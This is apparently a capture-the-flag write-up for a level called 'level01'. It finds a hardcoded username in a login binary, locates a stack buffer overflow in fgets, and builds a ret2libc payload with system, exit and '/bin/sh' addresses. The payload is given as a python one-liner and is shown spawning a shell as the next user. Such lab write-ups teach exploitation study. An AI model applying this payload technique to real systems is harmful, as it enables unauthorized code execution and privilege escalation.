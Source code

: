 # Level01

First step - testing the program

    $ ./level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: coucou
    verifying username....

    nope, incorrect username...

The program ask a username

Start in GDB

The program use fgets for asking the inputs

First there is a function `verify_user_name` for check the username

    0x08048528 <+88>:	call   0x8048370 <fgets@plt>
    0x0804852d <+93>:	call   0x8048464 <verify_user_name>


The function do manual things equivalent to an strncmp on the input and the string `dat_wil`

    (gdb) disas verify_user_name
    Dump of assembler code for function verify_user_name:
    0x0804846c <+8>:	mov    DWORD PTR [esp],0x8048690    <--- "verifying username....\n"
    0x08048473 <+15>:	call   0x8048380 <puts@plt>
    0x08048478 <+20>:	mov    edx,0x804a040    <--- "dat_wil\n"
    0x0804847d <+25>:	mov    eax,0x80486a8    <--- "dat_wil"
    0x08048482 <+30>:	mov    ecx,0x7          <--- maximum ncmp
    0x08048487 <+35>:	mov    esi,edx
    0x08048489 <+37>:	mov    edi,eax
    0x0804848b <+39>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
    0x0804848d <+41>:	seta   dl
    0x08048490 <+44>:	setb   al
    0x08048493 <+47>:	mov    ecx,edx
    0x08048495 <+49>:	sub    cl,al
    0x08048497 <+51>:	mov    eax,ecx
    0x08048499 <+53>:	movsx  eax,al
    0x0804849c <+56>:	add    esp,0x10
    0x0804849f <+59>:	pop    esi
    0x080484a0 <+60>:	pop    edi
    0x080484a1 <+61>:	pop    ebp
    0x080484a2 <+62>:	ret    
    End of assembler dump.

Try to enter `dat_wil` in the input

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 

Good, the program continue and ask the password

In the disassembly, we can see also a function `verify_user_pass` after the second fgets

    0x08048574 <+164>:	call   0x8048370 <fgets@plt>
    0x08048579 <+169>:	lea    eax,[esp+0x1c]
    0x0804857d <+173>:	mov    DWORD PTR [esp],eax
    0x08048580 <+176>:	call   0x80484a3 <verify_user_pass>

The function do manual things equivalent to an strncmp, like the first function, on the input and the string `admin`

    (gdb) disas verify_user_pass
    Dump of assembler code for function verify_user_pass:
    0x080484a3 <+0>:	push   ebp
    0x080484a4 <+1>:	mov    ebp,esp
    0x080484a6 <+3>:	push   edi
    0x080484a7 <+4>:	push   esi
    0x080484a8 <+5>:	mov    eax,DWORD PTR [ebp+0x8]
    0x080484ab <+8>:	mov    edx,eax
    0x080484ad <+10>:	mov    eax,0x80486b0    <--- "admin"
    0x080484b2 <+15>:	mov    ecx,0x5
    0x080484b7 <+20>:	mov    esi,edx
    0x080484b9 <+22>:	mov    edi,eax
    0x080484bb <+24>:	repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
    0x080484bd <+26>:	seta   dl
    0x080484c0 <+29>:	setb   al
    0x080484c3 <+32>:	mov    ecx,edx
    0x080484c5 <+34>:	sub    cl,al
    0x080484c7 <+36>:	mov    eax,ecx
    0x080484c9 <+38>:	movsx  eax,al
    0x080484cc <+41>:	pop    esi
    0x080484cd <+42>:	pop    edi
    0x080484ce <+43>:	pop    ebp
    0x080484cf <+44>:	ret    
    End of assembler dump.

But the password "admin" does not work

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    admin
    nope, incorrect password...

    [Inferior 1 (process 1858) exited with code 01]

In the code we can see the fgets call :

    0x0804855c <+140>:	mov    eax,ds:0x804a020
    0x08048561 <+145>:	mov    DWORD PTR [esp+0x8],eax
    0x08048565 <+149>:	mov    DWORD PTR [esp+0x4],0x64
    0x0804856d <+157>:	lea    eax,[esp+0x1c]
    0x08048571 <+161>:	mov    DWORD PTR [esp],eax
    0x08048574 <+164>:	call   0x8048370 <fgets@plt>

The buffer is stored on `esp+0x1c`. The fgets will read 0x64 (100)

At the top of the main, there is a bzero on this buffer :

    0x080484db <+11>:	lea    ebx,[esp+0x1c]
    0x080484df <+15>:	mov    eax,0x0
    0x080484e4 <+20>:	mov    edx,0x10
    0x080484e9 <+25>:	mov    edi,ebx
    0x080484eb <+27>:	mov    ecx,edx
    0x080484ed <+29>:	rep stos DWORD PTR es:[edi],eax

We can deduct the buffer size with the bzero : `0x10` (16)

The fgets will overflow, let's try!

    (gdb) r
    Starting program: /home/users/level01/level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: dat_wil
    verifying username....

    Enter Password: 
    AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
    nope, incorrect password...


    Program received signal SIGSEGV, Segmentation fault.
    0x55555555 in ?? ()

    ./get_offset.py 55
    U => offset = 80

We have EIP, start at the offset 80

Exploit this with a ret2libc. We need system, exit and a "/bin/sh" string addresses

    (gdb) info proc map
    process 1884
    Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x8049000     0x1000        0x0 /home/users/level01/level01
        0x8049000  0x804a000     0x1000        0x0 /home/users/level01/level01
        0x804a000  0x804b000     0x1000     0x1000 /home/users/level01/level01
        0xf7e2b000 0xf7e2c000     0x1000        0x0 
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0 
        0xf7fd8000 0xf7fdb000     0x3000        0x0 
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
    (gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
    0xf7f897ec
    1 pattern found.
    (gdb) x/s 0xf7f897ec
    0xf7f897ec:	 "/bin/sh"

The address of the "/bin/sh" string is `0xf7f897ec`

    (gdb) info function system
    All functions matching regular expression "system":

    Non-debugging symbols:
    0xf7e6aed0  __libc_system
    0xf7e6aed0  system
    0xf7f48a50  svcerr_systemerr

Address of system : `0xf7e6aed0`

    (gdb) info function exit
    All functions matching regular expression "exit":

    Non-debugging symbols:
    0xf7e5eb70  exit
    0xf7e5eba0  on_exit
    0xf7e5edb0  __cxa_atexit
    0xf7e5ef50  quick_exit
    0xf7e5ef80  __cxa_at_quick_exit
    0xf7ee45c4  _exit
    0xf7f27ec0  pthread_exit
    0xf7f2d4f0  __cyg_profile_func_exit
    0xf7f4bc30  svc_exit
    0xf7f55d80  atexit

Address of exit : `0xf7e5eb70`

Build the payload!

    ("B" * 80) + "system" + "ret = exit" + "/bin/sh"

    $ python -c 'print "dat_wil\n"+"B"*80+"\xd0\xae\xe6\xf7"+"\x70\xeb\xe5\xf7"+"\xec\x97\xf8\xf7"' > /tmp/payload

    $ cat /tmp/payload - | ./level01 
    ********* ADMIN LOGIN PROMPT *********
    Enter Username: verifying username....

    Enter Password: 
    nope, incorrect password...

    whoami
    level02
